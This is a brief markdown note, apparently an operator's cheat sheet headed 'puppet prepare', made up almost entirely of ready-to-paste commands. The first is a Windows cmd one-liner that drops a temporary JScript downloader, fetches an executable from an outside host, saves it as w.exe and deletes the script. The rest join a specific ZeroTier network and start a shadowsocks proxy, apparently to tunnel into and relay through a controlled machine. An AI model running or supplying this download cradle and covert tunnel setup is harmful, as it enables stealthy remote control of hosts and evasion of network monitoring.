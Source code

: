 # puppet prepare

```
set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% https://partnernetsoftware.com/wget64.1.20.3.exe w.exe && del %f% /f /q && dir w.exe
```
## get w

## w zt

```

-q join 8850338390fcd8ee
-q listnetworks

```

## w ss

ss -s "ss://@:19999"

## w puppet

# puppet start

